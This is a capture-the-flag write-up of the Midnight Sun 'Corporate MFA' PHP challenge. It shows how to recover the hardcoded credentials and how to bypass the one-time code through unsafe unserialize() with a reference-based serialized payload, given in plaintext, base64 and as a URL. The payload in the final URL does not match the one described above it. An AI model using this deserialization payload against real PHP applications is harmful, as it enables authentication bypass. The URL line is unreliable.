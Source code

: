 # Corporate MFA

The source for this corporate zero-trust multi factor login portal has been leaked! Figure out how to defeat the super-secure one time code.

Service: http://corpmfa-01.play.midnightsunctf.se 

Download: corpmfa.tar.gz

## Challenge

The service is a login page which requires a username, password, and MFA token.

We are given the php source code for the challenge.

### Credential verification source code

```php
<?php

final class User
{
	private $userData;

	public function __construct($loginAttempt)
	{
		$this->userData = unserialize($loginAttempt);
		if (!$this->userData)
			throw new InvalidArgumentException('Unable to reconstruct user data');
	}

	private function verifyUsername()
	{
		return $this->userData->username === 'D0loresH4ze';
	}

	private function verifyPassword()
	{
		return password_verify($this->userData->password, '$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq');
	}

	private function verifyMFA()
	{
		$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
		return (int)$this->userData->mfa === $this->userData->_correctValue;
	}
	
	public function verify()
	{
		if (!$this->verifyUsername())
			throw new InvalidArgumentException('Invalid username');

		if (!$this->verifyPassword())
			throw new InvalidArgumentException('Invalid password');

		if (!$this->verifyMFA())
			throw new InvalidArgumentException('Invalid MFA token value');

		return true;
	}

}
```

As we can see, the username and password are hardcoded.
The password is hashed using built-in php functions.
The MFA token is a randomly generated integer for each login.

## Solution

### Username

The username is given in the source code:

```php
private function verifyUsername()
{
    return $this->userData->username === 'D0loresH4ze';
}
```

### Password

The password for the given hash can be found online from the php official documentation:

```php
private function verifyPassword()
{
    return password_verify($this->userData->password, '$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq');
}
```

![PHP verifyPassword() Docs](./resources/function.password-verify.png?raw=true)

Password: `rasmuslerdorf`

### MFA token

It is impractical to guess the value of the MFA token.
However, there is an unsafe deserialization of user input on each login attempt:

```php
public function __construct($loginAttempt)
{
    $this->userData = unserialize($loginAttempt);
    if (!$this->userData)
        throw new InvalidArgumentException('Unable to reconstruct user data');
}
```

We can specify our own `unserialize` input as a GET parameter:

```
if (!empty($_GET) && isset($_GET['userdata']))
{
	// prepare notification data structure
	$notification = new stdClass();

	// check credentials & MFA
	try
	{
		$user = new User(base64_decode($_GET['userdata']));
		if ($user->verify())
		{
			$notification->type = 'success';
			$notification->text = 'Congratulations, your flag is: ' . file_get_contents('/flag.txt');
		}
        ...
```

By crafting our own input for `unserialize`, we can make the `mfa` variable a reference to `_correctValue`, so that `(int)$this->userData->mfa === $this->userData->_correctValue` always returns true.

To do so, we modify the serialized payload to include an additional field `_correctValue`, formatted as a number `N`.
We can now reference this value when setting `mfa` using the `R` format and pointing it at position 2, where the `N` format from earlier was placed.
Now, `mfa` will reference the value of `_correctValue`.

## Payload

```
# plaintext
O:8:"stdClass":4:{s:13:"_correctValue";N;s:8:"username";s:11:"D0loresH4ze";s:8:"password";s:13:"rasmuslerdorf";s:3:"mfa";R:2;}

# base64
Tzo4OiJzdGRDbGFzcyI6NDp7czoxMzoiX2NvcnJlY3RWYWx1ZSI7TjtzOjg6InVzZXJuYW1lIjtzOjExOiJEMGxvcmVzSDR6ZSI7czo4OiJwYXNzd29yZCI7czoxMzoicmFzbXVzbGVyZG9yZiI7czozOiJtZmEiO1I6Mjt9

# url
https://corpmfa-01.play.midnightsunctf.se/?userdata=Tzo4OiJzdGRDbGFzcyI6Mzp7czo4OiJ1c2VybmFtZSI7czoxMToiRDBsb3Jlc0g0emUiO3M6ODoicGFzc3dvcmQiO3M6MTM6InJhc211c2xlcmRvcmYiO3M6MzoibWZhIjtzOjEwOiIxMjM0NTY3ODkwIjt9
```

## Flag

`midnight{395E160F-4DB8-4D7A-99EF-08E6799741B5}`

